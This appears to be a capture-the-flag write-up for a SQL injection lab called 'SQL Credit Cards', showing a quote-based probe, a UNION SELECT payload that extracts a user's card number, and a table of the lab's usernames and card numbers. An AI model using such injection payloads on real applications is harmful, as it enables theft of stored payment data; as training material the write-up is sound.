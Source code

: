 # SQL Credit Cards

Find the credit card number

Get the credit card number for user: farnsworth

Enter the credit card number here

## Solution

Enter

```plain
'
```

So, the SQL is

```sql
SELECT username FROM credit_cards WHERE username='$1' COLLATE NOCASE
```

I have tried many times to find out the credit card number field name. Finally, I found it is `card`.

Enter

```plain
' and 1 = 2 union SELECT card FROM credit_cards WHERE username='farnsworth
```

You will get the credit card number.

Enter

```plain
4784981000802194
```

## Cheat Table

| username   | card             |
| :--------- | :--------------- |
| admin      | 4300713381842928 |
| bender     | 4768732694626948 |
| fry        | 4385923563192160 |
| farnsworth | 4784981000802194 |
| scruffy    | 4987327898009549 |
| zoidberg   | 4912753912003772 |
